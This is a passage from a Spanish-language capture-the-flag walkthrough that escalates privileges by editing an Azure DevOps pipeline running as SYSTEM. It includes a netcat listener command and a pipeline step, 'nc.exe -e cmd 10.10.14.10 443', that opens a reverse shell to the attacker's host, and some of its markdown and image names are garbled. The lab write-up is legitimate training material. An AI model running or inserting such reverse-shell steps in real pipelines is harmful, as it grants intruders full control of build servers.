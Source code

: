 1. Miramos el resultado 


![Worker-whoami-ielie](/assets/images/Worker-whoami-pipeline.png) 
Aqui comprobamos que script esta lanzado por 
```bash
 nt authority\system 
```


1. Uploadeamos un netcat a la maquina victima
    
    ```
![Worker-uardar-ejecutar](/assets/images/Worker-guardar-ejecutar.png) 

1. Desde evil-winrm, uploadeamos el fichero

    ```bash
    upload nc.exe
![Worker-mulit-lie-scrit](/assets/images/Worker-mulit-line-script.png) 
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Editamos el pipeline script

    ```yaml
    trigger:
    - master

    pool: 'Setup'

    steps:
    - script: echo Hello, world!
      displayName 'Run a one-line script'

    - script: C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.10 443
      displayName: 'Run a multi-line script'
    ```

1. Le damos a ejecutar

```bash
whoami

nt authority\system
```

Ya podemos leer la flag.
